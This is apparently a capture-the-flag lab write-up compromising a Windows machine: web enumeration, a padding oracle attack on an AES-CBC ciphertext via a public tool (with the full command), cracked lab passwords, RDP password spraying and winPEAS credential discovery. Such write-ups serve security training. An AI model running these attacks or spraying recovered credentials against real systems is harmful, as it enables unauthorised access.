 #Pwned! 
```IP
192.168.167.119
```
# Enumeration

## HTTP 80
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219152843.png?raw=true)
## HTTP 2290
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219153318.png?raw=true)
We also find the next message
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241219160514.png?raw=true)
```
AES-256-CBC-PKCS7 ciphertext: 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488

Victor's TODO: Need to add authentication eventually..
```
If you interact with the c parameter it will respond with a 0 with any string excepto for the ciphertext, which will retrieve a 1:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220094911.png?raw=true)
# Exploitation
Searching for AES-256-CBC-PKCS7 exploit we get the following github page which contains an exploit for the padding oracle attack.
https://github.com/mpgn/Padding-oracle-attack
```
python exploit.py -c '4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488' -l 16 --host 192.168.167.119:2290 -u /?c= -v --error '<span id="MyLabel">0</span>'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220095604.png?raw=true)
It cracked the password!
```
WormAloeVat7
```
Spraying the password we get access via RDP!

# PrivEsc

## Manual

## Automated

### Peass
If we run winpeas we will find some powershell events which haven't been deleted. They contain administrator credentials and the flag!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220100734.png?raw=true)
```
EverywayLabelWrap375
```
Indeed we can execute a powershell as administrator with the latter password, and assess that the flag is indeed the one retrieved by winpeas:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241220101033.png?raw=true)
### Mimikatz

# Lateral Movement

